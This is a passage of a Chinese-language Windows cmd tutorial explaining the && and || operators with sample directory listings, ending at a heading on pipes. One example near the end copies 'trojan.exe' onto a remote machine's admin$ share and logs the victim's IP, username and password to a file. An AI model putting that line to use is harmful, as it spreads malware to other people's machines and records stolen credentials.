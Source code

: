 

## 2.&&

Usage：第一条命令 && 第二条命令[&& 第三条命令...]

用这种方法可以同时执行多条命令，当碰到执行出错的命令后将不执行后面的命令，如果一直没有出错则一直执行完所有命令；

Sample：
C:\\>dir z: && dir c:\\Ex4rch
The system cannot find the path specified.

C:\\>dir c:\\Ex4rch && dir z:
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of c:\\Ex4rch

2002-05-14 23:55 <DIR> .
2002-05-14 23:55 <DIR> ..
2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
2 Dir(s) 768,671,744 bytes free
The system cannot find the path specified.

在做备份的时候可能会用到这种命令会比较简单，如：
dir file://192.168.0.1/database/backup.mdb&& copy file://192.168.0.1/database/backup.mdbE:\\backup
如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）

## 3.||

Usage：第一条命令 || 第二条命令 [|| 第三条命令...]

用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令；

Sample：
C:\\Ex4rch>dir sometips.gif || del sometips.gif
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of C:\\Ex4rch

2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
0 Dir(s) 768,696,320 bytes free

组合命令使用的例子：
sample：
@copy trojan.exe \\\\%1\\admin$\\system32 && if not errorlevel 1 echoIP %1 USER %2 PASS %3 >>victim.txt

# 4. 管道命令的使用

## 1. | 命令

